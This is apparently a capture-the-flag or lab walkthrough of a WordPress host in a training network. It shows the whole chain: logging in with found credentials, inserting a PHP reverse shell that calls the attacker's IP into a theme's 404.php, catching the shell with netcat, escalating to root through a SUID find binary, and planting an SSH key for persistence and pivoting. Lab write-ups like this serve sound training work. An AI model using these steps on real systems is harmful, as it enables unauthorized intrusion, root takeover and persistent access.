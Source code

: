 # Exploit
## Login to Wordpress

| Url   | http://10.10.110.100:65000/wordpress/wp-admin/users.php |
| ----- | ------------------------------------------------------- |
| Creds | james:Toyota                                            |
### Upload Backdoor
1. Open WP Theme Editor: http://10.10.110.100:65000/wordpress/wp-admin/theme-editor.php
2. Select the Twenty Nineteen 404.php: http://10.10.110.100:65000/wordpress/wp-admin/theme-editor.php?file=404.php&theme=twentynineteen
3. Insert: <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.14/9001 0>&1'"); ?> to the TwentyTwenty 404.php
4. then listening port with `nc -lnvp 9001`
5. `firefox http://10.10.110.100:65000/wordpress/wp-content/themes/twentynineteen/404.php`
```
$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.110.100] 44678
bash: cannot set terminal process group (1094): Inappropriate ioctl for device
bash: no job control in this shell
<w/html/wordpress/wp-content/themes/twentynineteen$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Interactive Shell
```
which python3
python3 -c 'import pty;pty.spawn("/bin/sh")'
```
```
$ cd /home
$ ls -la	// james; balthazar
```
```
$ su james
su james
Password: Toyota

james@DANTE-WEB-NIX01:/home$ cat james/flag.txt
cat james/flag.txt
DANTE{j4m3s_NEEd5_a_p455w0rd_M4n4ger!}
james@DANTE-WEB-NIX01:/home$ 
```

# Privilege Escalation
## Find SUID misconfiguration
```
james@DANTE-WEB-NIX01:/home$ find . -exec /bin/bash -p \; -quit
find . -exec /bin/bash -p \; -quit
bash-5.0# id
id
uid=1001(james) gid=1001(james) euid=0(root) groups=1001(james)

```
```
bash-5.0# ifconfig
ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.1.100  netmask 255.255.255.0  broadcast 172.16.1.255
        inet6 fe80::250:56ff:feb9:7a74  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:7a:74  txqueuelen 1000  (Ethernet)
        RX packets 484692  bytes 92949307 (92.9 MB)
        RX errors 0  dropped 68  overruns 0  frame 0
        TX packets 389672  bytes 346157599 (346.1 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 4815  bytes 442456 (442.4 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 4815  bytes 442456 (442.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

## Add SSH Connection
**Generate SSH Key in HOST**
```
$ ssh-keygen -b 4096
$ cat ~/.ssh/id_ed25519.pub 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICEEljGcqu6LAIDeTnlO/+wDg+mB9e+uu2uuxCka/Psu kali@kali
```

**Add Public Key to TARGET**
```
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICEEljGcqu6LAIDeTnlO/+wDg+mB9e+uu2uuxCka/Psu" >> /root/.ssh/authorized_keys
<g+mB9e+uu2uuxCka/Psu" >> /root/.ssh/authorized_keys
```

**Then connect to Target**
```
$ ssh -i ~/.ssh/id_ed25519 root@10.10.110.100
$ ssh -i ~/.ssh/id_ed25519 -D 1080 root@10.10.110.100
```

